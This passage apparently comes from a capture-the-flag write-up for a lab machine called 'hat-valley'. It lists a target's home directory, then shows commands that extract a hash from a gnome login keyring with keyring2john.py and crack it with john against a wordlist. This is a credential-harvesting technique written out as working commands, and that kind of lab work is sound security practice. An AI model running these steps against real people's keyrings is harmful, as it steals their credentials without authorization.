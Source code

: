 ```bash
./snap/snapd-desktop-integration/14/.config/gtk-3.0/settings.ini
./snap/snapd-desktop-integration/14/.config/gtk-3.0/bookmarks
./snap/snapd-desktop-integration/14/.config/user-dirs.dirs.md5sum
./snap/snapd-desktop-integration/14/.config/user-dirs.dirs
./snap/snapd-desktop-integration/14/.config/user-dirs.locale
./snap/snapd-desktop-integration/14/Videos/
./snap/snapd-desktop-integration/14/.last_revision
./snap/snapd-desktop-integration/14/.local/
./snap/snapd-desktop-integration/14/.local/share/
./snap/snapd-desktop-integration/14/.local/share/themes
./snap/snapd-desktop-integration/14/.local/share/icons/
./snap/snapd-desktop-integration/14/.local/share/glib-2.0/
./snap/snapd-desktop-integration/14/.local/share/glib-2.0/schemas/
./snap/snapd-desktop-integration/14/Music/
./snap/snapd-desktop-integration/14/Downloads/
./snap/snapd-desktop-integration/14/Desktop/
./snap/snapd-desktop-integration/14/Public/
./snap/snapd-desktop-integration/14/Documents/
./snap/snapd-desktop-integration/common/
./.bashrc
./Downloads/
./.bash_history
./.profile
./Desktop/
./Public/
./.bash_logout
./Documents/
./Documents/backup_tmp/
./Documents/backup_tmp/bean_backup.tar.gz
./Documents/backup_home.sh
./Documents/backup/

```

The gnome keyring files above look interesting -- and according to [Linux Privilege Escalation – Credentials Harvesting - StefLan&#039;s Security Blog](https://steflan-security.com/linux-privilege-escalation-credentials-harvesting/), we can extract hashes out for john the ripper to brute force:

```bash
[zara@supernova]─[~/hat-valley/download/.local/share/keyrings]
└──╼ $ls -la
total 8
drwx------ 1 zara zara  52 Sep 15 21:35 .
drwx------ 1 zara zara 308 Sep 15 21:43 ..
-rw------- 1 zara zara 105 Sep 15 21:35 login.keyring
-rw------- 1 zara zara 207 Sep 15 21:35 user.keystore

$python2 /usr/share/john/keyring2john.py login.keyring > ~/hat-valley/keyring_hash.txt

$john --wordlist=/usr/share/wordlists/rockyou.txt ~/hat-valley/keyring_hash.txt
```
